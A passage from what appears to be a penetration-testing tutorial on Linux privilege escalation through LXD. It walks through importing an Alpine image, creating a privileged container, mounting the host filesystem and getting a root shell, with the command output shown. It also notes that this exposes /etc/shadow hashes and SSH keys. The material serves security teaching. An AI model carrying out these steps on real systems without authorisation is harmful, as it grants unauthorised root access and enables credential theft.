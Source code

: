 Start the LXD initialization process. Choose the defaults for each prompt. Consult this [post](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) for more information on each step.

```shell
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge

```

Import the local image.

```shell
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b

```

Start a privileged container with the `security.privileged` set to `true` to run the container without a UID mapping, making the root user in the container the same as the root user on the host.

```shell
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t

```

Mount the host file system.

```shell
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t

```

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root. For example, to access the contents of the root directory on the host type `cd /mnt/root/root`. From here we can read sensitive files such as `/etc/shadow` and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

```shell
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ #

```
